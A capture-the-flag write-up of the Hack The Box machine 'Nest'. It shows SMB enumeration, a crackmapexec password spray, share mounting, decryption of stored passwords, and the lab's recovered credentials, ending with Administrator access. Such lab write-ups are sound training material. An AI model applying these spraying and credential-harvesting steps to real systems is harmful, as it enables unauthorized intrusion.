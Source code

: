 # Nest

---

## Enumeration

- nmap:

```

```

### Samba

- Found 'users' share, revealed some usernames:

```
  Administrator                       D        0  Fri Aug  9 11:08:23 2019
  C.Smith                             D        0  Sun Jan 26 02:21:44 2020
  L.Frost                             D        0  Thu Aug  8 13:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 13:02:50 2019
  TempUser                            D        0  Wed Aug  7 18:55:56 2019
```

- Data/Shared is open for anon access
- Found creds in welcome email template:

```
Username: TempUser
Password: welcome2019
```

- Password spray revealed this password is used by several users who forgot to change it?
- Useres `L.Frost`, `R.Thompson`, `TempUser` have same password that is `welcome2019`.

```zsh
crackmapexec smb -u usernames.txt -p passwords.txt --continue-on-success 10.10.10.178         

SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\Administrator:welcome2019 STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\C.Smith:welcome2019 STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\L.Frost:welcome2019 
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\R.Thompson:welcome2019 
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\TempUser:welcome2019
```

- Only `TempUser` has access to things, full read access to `Data` Share, mounted it:

```zsh
sudo mount -t cifs -o rw,credentials=/home/kali/CTF/HTB-CTF/Machines/Nest/creds //$IP/Data /mnt/Shared
```

- Found new creds in `Data/IT/Configs/RU Scanner`: uncrackable?

```xml
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile> 
```

- Users `L.Frost` and `R.Thompson` have no password on smb!!
- Found in Data share np++ history?

```xml
        <File filename="C:\windows\System32\drivers\etc\hosts" />
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
```

```zsh
sudo mount -t cifs -o credentials=/home/kali/CTF/HTB-CTF/Machines/Nest/creds //$IP/Secure$/IT/Carl /mnt/Carl
```

- Found vb project, Moved it to my windows machine and let it decreypt the password for me, `xRxRxPANCAK3SxRxRx`.
- Worked on user C.Smith on smb!

```zsh
crackmapexec smb -u 'C.Smith' -p 'xRxRxPANCAK3SxRxRx' --shares $IP         

SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\C.Smith:xRxRxPANCAK3SxRxRx 
SMB         10.10.10.178    445    HTB-NEST         [+] Enumerated shares
SMB         10.10.10.178    445    HTB-NEST         Share           Permissions     Remark
SMB         10.10.10.178    445    HTB-NEST         -----           -----------     ------
SMB         10.10.10.178    445    HTB-NEST         ADMIN$                          Remote Admin
SMB         10.10.10.178    445    HTB-NEST         C$                              Default share
SMB         10.10.10.178    445    HTB-NEST         Data            READ            
SMB         10.10.10.178    445    HTB-NEST         IPC$                            Remote IPC
SMB         10.10.10.178    445    HTB-NEST         Secure$         READ            
SMB         10.10.10.178    445    HTB-NEST         Users           READ
```

- Got user flag

---

## PrivEsc

- Found that port 4386 is running the program i just found
- Enumerating SMB, found password hidden in a file using `allinfo Debug Mode Password.txt`
- Found creds in LDAP directory

```
Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

- Did some reverse engineering and let the program decrypt the password for me again
- password: `XtH4nkS4Pl4y1nGX`

```zsh
crackmapexec smb -u 'Administrator' -p passwords.txt --shares $IP

SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\Administrator:XtH4nkS4Pl4y1nGX (Pwn3d!)
```

- rooted.

---

